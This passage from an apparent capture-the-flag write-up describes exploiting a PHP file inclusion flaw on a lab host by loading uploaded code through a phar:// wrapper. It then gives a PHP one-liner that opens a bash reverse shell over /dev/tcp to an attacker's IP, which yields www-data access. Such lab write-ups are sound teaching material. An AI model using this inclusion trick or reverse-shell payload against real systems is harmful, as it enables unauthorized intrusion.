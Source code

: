 ![Screenshot13](./screenshots/13.png)

And finally we can call them up as follows.

__URL:__ `http://itrc.ssg.htb/?page=phar://uploads/<HASH_FROM_APPLICATION>.zip/info`

![Screenshot14](./screenshots/14.png)

Hooray, that looks good!

With a slash `/` we get the packed file from the uploaded zip archive and enter `info` to call the `info.php` of our POC contained in it.

It is important to note that we omit a `.php` at the end, as the application in the background already appends this.

<br>

### Reverse Shell

OK, to get a reverse shell I repeated the game again with the following PHP wrapped code:

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/9001 0>&1'"); ?>
```

I got a reverse shell as `www-data`.

![Screenshot15](./screenshots/15.png)
